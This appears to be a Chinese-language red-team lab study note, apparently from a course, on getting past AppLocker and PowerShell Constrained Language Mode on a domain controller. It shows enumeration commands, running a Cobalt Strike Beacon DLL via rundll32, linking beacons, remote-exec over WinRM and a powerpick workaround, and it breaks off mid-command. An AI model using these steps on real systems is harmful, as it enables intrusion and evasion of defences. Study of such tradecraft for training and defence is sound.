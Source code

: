 ```
```
$ExecutionContext.SessionState.LanguageModeConstrainedLanguage
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661732327423.png)

DLL 强制很少启用，因为它会给系统带来额外的负载，并且需要进行大量测试以确保不会出现任何问题

Cobalt Strike 可以将 Beacon 输出到可以使用rundll32运行的 DLL 

下面方法我在lab无法复现，因为我无法关掉dc-1的defender，这里知道有这种方法即可

```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8A6C-CD61

 Directory of C:\Users\Administrator\Desktop

05/17/2021  11:01 PM    <DIR>          .
05/17/2021  11:01 PM    <DIR>          ..
05/17/2021  10:59 PM           311,808 beacon.dll

C:\>C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
```

```
beacon> link dc-1
[+] established link to child beacon: 10.10.15.75
```


# PowerShell Constrained Language Mode（CLM）

枚举dc-1上是否有CLM

```
beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode
[*] Tasked beacon to run '$ExecutionContext.SessionState.LanguageMode' on dc-1 via WinRM
[+] host called home, sent: 327 bytes
[+] received output:

PSComputerName RunspaceId                           Value              
-------------- ----------                           -----              
dc-1           76353831-73f5-4234-8282-cf7125d13d6b ConstrainedLanguage

```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661734556715.png)

无法使用winrm（powershell）


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661734621007.png)

在dc-1上，使用powershell会马上断开（教材在这一步是会报错）


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661734751787.png)

使用powerpic代替powershell，绕过CLM限制

```
beacon> run hostname